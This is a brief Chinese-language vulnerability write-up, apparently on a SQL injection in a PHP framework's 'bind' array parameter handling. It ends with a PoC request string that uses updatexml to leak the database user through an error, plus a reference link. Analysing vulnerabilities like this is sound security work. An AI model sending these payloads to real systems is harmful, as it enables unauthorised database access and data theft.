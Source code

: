 ![image](img/5625452fe01634ee18c4a146199a0146.png)

明显发现之前的`user`参数为:0 然后被替换为了 liao，这样就把:替换掉了。 后面的:1 明显是替换不掉的：

![image](img/518306c832c6ebe918d3120c3c7d626c.png)

那么我们将 id[1]数组的参数变为 0 呢？

```
id[]=bind&id[]=0%27&money[]=1123&user=liao 
```

![image](img/61351f4c383aa16a74f92e7ee3fa8cbc.png)

果然造成了注入：

### poc

```
money[]=1123&user=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1)) 
```

![image](img/3e3069c63ba79661f7d1f544dd731095.png)

## 参考链接

> [https://www.anquanke.com/post/id/104847](https://www.anquanke.com/post/id/104847)

